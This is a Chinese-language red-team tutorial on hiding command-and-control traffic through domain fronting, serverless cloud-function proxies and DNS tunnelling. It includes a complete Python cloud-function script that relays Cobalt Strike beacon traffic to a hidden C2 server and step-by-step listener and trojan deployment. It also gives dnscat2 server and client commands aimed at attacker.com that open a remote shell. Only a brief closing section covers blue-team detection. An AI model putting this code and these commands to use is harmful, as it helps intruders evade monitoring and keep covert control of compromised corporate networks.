



# C2流量隐匿与隧道对抗：域前置(Domain Fronting)、云函数反代与DNS隧道实战

---

## 0. 基础前置知识扫盲：从“自建黑市”到“寄生大厂”

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在上一篇笔记中，我们讲解了通过购买廉价 VPS 搭建重定向器来保护核心 C2 的方法。
但是，在国家级红蓝对抗演练或面对具备成熟 SOC 监控的大型企业时，自建 VPS 重定向器存在天然的致命缺陷：
- **IP 信誉度低**：刚买两天的云主机 IP，在威胁情报平台（微步在线、奇安信天眼、VirusTotal）上没有任何历史正常业务记录；
- **防火墙一刀切拉黑**：蓝队一旦在流量中看到一台从未见过的未知境外 IP 在高频通信，**直接在防火墙上把该 IP 封禁**，通信通道瞬间中断。

为了彻底解决这个问题，顶尖红队采用了更具隐蔽性的哲学：**“大隐隐于市——寄生在顶级云厂商的高信誉网络中”**。



---

## 1. 经典绝技：域前置（Domain Fronting）底层网络原理

域前置曾是红队与 APT 组织最具代表性的流量伪装“黑魔法”，其核心在于巧妙利用了 **HTTPS 协议中 TLS 握手层 与 HTTP 应用层的不同步性**。

### 1.1 核心原理深度剖析（SNI 与 Host 的分裂）

在一个标准的 HTTPS 连接建立过程中，包含两个关键阶段：
1. **阶段 1：TLS 握手阶段（明文暴露）**：
   客户端为了让单 IP 托管多域名的 Web 服务器返回正确的 SSL 证书，会在 Client Hello 报文中发送 **SNI（Server Name Indication，服务器名称指示）**。
   - **关键特征**：SNI 在传统 TLS 1.2 中是**明文传输**的！企业边界防火墙和 IDS 只能看到这个明文域名。
2. **阶段 2：HTTP 请求发送阶段（密文加密）**：
   当 TLS 加密隧道协商完成后，客户端在加密隧道内部发送真正的 HTTP 请求，其中包含 **`Host:` 标头**。
   - **关键特征**：`Host` 标头处于加密通道内部，外部网络监控设备**完全无法窥探其真实内容**！



### 1.2 现状演进与厂商封堵（从滥用到落幕）
- **各大 CDN 厂商的围剿**：由于域前置被广泛用于勒索病毒通信与高级网络攻击，Google、AWS CloudFront、Cloudflare 等主流厂商已全面实施 **“SNI-Host 一致性强制校验”**（若发现 SNI 域名与 Host 域名归属不同账户，直接断开连接）。
- **现代变种**：目前仅有少数支持高度复杂自定义边缘路由的 CDN 或边缘计算平台，在特定非标配置下能够实现类似的降级绕过。

---

## 2. 当代红队标配：云函数（Serverless）反代 C2 隐蔽实战

如果说域前置已经走向黄昏，那么**基于无服务器云函数（Serverless Cloud Function / FaaS）的反向代理**则是当今红蓝对抗中最耀眼的明星技术。

### 2.1 为什么云函数反代近乎“无解”？
1. **高信誉大厂域名背书**：
   受控端 Beacon 通信的目标是国内顶级大厂的合法服务（如 `service-xxxx.ap-shanghai.apigateway.myqcloud.com` 或 `xxxx.cn-hangzhou.fc.aliyuncs.com`）。很多企业内部本身就大量使用阿里云、腾讯云开发业务，**蓝队绝不敢轻易在防火墙上一刀切封禁整个云厂商域名**！
2. **海量分布式动态出口 IP**：
   云函数是无状态计算节点。Beacon 发送的每一次心跳请求，云厂商背后的调度器可能会从成千上万个不同的节点拉起容器来执行。**真实 C2 看到的来源 IP 每一秒都在变化**，蓝队即便想溯源也根本拿不到固定的源 IP！
3. **完全保护真实 C2**：
   只有云函数代码中硬编码了真实 C2 的 IP，公网任何人只看得到云厂商的 API 网关入口，真实 C2 躲在云服务背后高枕无忧。

---

### 2.2 腾讯云/阿里云云函数反代脚本完整源码（Python 3 实现）

将以下代码作为云函数执行入口（`index.py`）：

```python
# -*- coding: utf-8 -*-
import json
import urllib.request
import urllib.parse
import ssl

# =========================================================
# 配置真实隐藏的 C2 服务器地址 (不要向公网暴露此 IP)
# =========================================================
REAL_C2_SERVER = "http://1.2.3.4:80"

# 忽略 SSL 证书校验 (用于转发自签名证书流量)
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

def main_handler(event, context):
    """
    云函数网关入口处理函数
    接收来自受控 Beacon 的请求并无缝转发至真实 C2
    """
    try:
        # 1. 解析 API 网关转发过来的请求路径与方法
        path = event.get('path', '/')
        method = event.get('httpMethod', 'GET')
        headers = event.get('headers', {})
        query_params = event.get('queryString', {})
        body = event.get('body', '')

        # 剔除 API 网关特有的头部，防止 C2 解析异常
        headers.pop('Host', None)
        headers.pop('host', None)
        headers.pop('X-Forwarded-For', None)

        # 拼接目标真实 C2 请求 URL
        query_string = urllib.parse.urlencode(query_params)
        target_url = f"{REAL_C2_SERVER}{path}"
        if query_string:
            target_url += f"?{query_string}"

        # 构造请求体 (处理 Base64 编码情况)
        req_body = None
        if body:
            if event.get('isBase64Encoded', False):
                import base64
                req_body = base64.b64decode(body)
            else:
                req_body = body.encode('utf-8')

        # 2. 向真实 C2 转发数据
        req = urllib.request.Request(target_url, data=req_body, headers=headers, method=method)
        with urllib.request.urlopen(req, context=ctx, timeout=10) as response:
            res_body = response.read()
            res_headers = dict(response.headers)

            return {
                "isBase64Encoded": True,
                "statusCode": response.status,
                "headers": res_headers,
                "body": urllib.parse.quote(res_body) # 保持二进制完好回传
            }

    except Exception as e:
        return {
            "isBase64Encoded": False,
            "statusCode": 500,
            "headers": {},
            "body": f"Gateway Forward Error: {str(e)}"
        }
```

### 2.3 Cobalt Strike 上线配置四部曲
1. **部署云函数**：在腾讯云控制台创建函数，触发方式选择 **API 网关触发器**（开启集成响应与免鉴权）；
2. **获取公网入口**：获得形如 `https://service-8abcde.gz.apigw.tencentcs.com/release` 的入口 URL；
3. **配置 CS 监听器（Listener）**：
   - `Payload`: `windows/beacon_https/reverse_https`
   - `Hosts`: 填写 API 网关域名：`service-8abcde.gz.apigw.tencentcs.com`
   - `Port`: `443`
4. **生成木马并执行**：
   木马生成后在内网目标主机运行，心跳流量平滑穿过企业边界防火墙，成功在 CS 面板上线！

---

## 3. 终极暗道：DNS 隧道隐蔽信道（DNS Tunneling）

在极其严苛的内网环境中（如银行核心隔离网、涉密系统主机），出站防火墙规则配置为：**“禁止一切公网 TCP/UDP 连接，80/443 全部封死”**。
此时，上述所有的 HTTP/HTTPS 重定向全部失效。但是，企业往往必须保留一个基础网络功能：**向内网本地 DNS 服务器查询域名（UDP 53 端口）**！

### 3.1 DNS 隧道的通信原理
只要内网主机能够向局域网 DNS 服务器（如 `192.168.1.1`）发送解析请求，并且该内网 DNS 具有向上级公网根服务器进行**递归解析（Recursive Query）**的能力，暗道就能被打通！



### 3.2 知名开源工具 dnscat2 实战搭建

1. **服务端搭建（公网 VPS 权威 DNS 服务器）**：
   - 购买域名 `attacker.com`，在域名服务商处添加 NS 记录：
     `ns.attacker.com -> <VPS_IP>`
     `c2.attacker.com -> 委派给 ns.attacker.com`
   - 启动 dnscat2 服务端：
     ```bash
     ruby dnscat2.rb --dns domain=c2.attacker.com --security=open
     ```
2. **客户端执行（内网受限机器）**：
   - 在 Windows/Linux 受控靶机运行 dnscat2 客户端：
     ```cmd
     dnscat.exe --dns domain=c2.attacker.com
     ```
   - 客户端自动将数据封装成标准的 DNS 查询包；
   - 服务端终端立即提示：`New window created: 1`，输入 `window -i 1` 即可直接获得一个交互式远程终端 Shell！

---

## 4. 蓝队全流量威胁猎杀与封堵基线

对于企业蓝队防御专家而言，面对上述高级隐蔽信道，防护重心必须从“单一 IP 黑名单”转向**“深层行为与特征统计分析”**：

### 1. 云函数反代通信检测策略：
- **检查特有网关标头**：
  许多云函数在透传 HTTP 请求时，网关底层会自动注入特定的元数据标头（例如腾讯云的 `X-Api-AppId`、`X-Api-ServiceId`，阿里云的 `X-Fc-Invocation-Type`）；
- **阻断非常规外部 API 网关访问**：
  若公司员工的办公电脑频繁向云厂商的特定 API 网关子域名发送高频微小请求，且不是公司已登记的采购服务，应直接在代理网关阻断。

### 2. DNS 隧道全流量特征检测（SIEM 告警规则）：
- **子域名长度与香农熵监控**：正常的 DNS 查询子域名一般简短（如 `mail.google.com`）；DNS 隧道的子域名包含大量 Base32/Hex 编码，长度通常接近 63 字符且字符熵极高。
- **特定记录类型比例失衡**：正常网络中 95% 以上是 A 记录查询。如果某台内网机器发起了成千上万个 **TXT 记录** 或 **CNAME 记录** 查询，立即判定为 DNS 隧道外带！
- **严格内网 DNS 出站白名单**：
  在防火墙上严格规定：**全内网只允许指定的核心 DNS 服务器向外部发起 UDP 53 连接**，严禁普通终端直接向任意公网 DNS（如 `8.8.8.8`）直接查询。
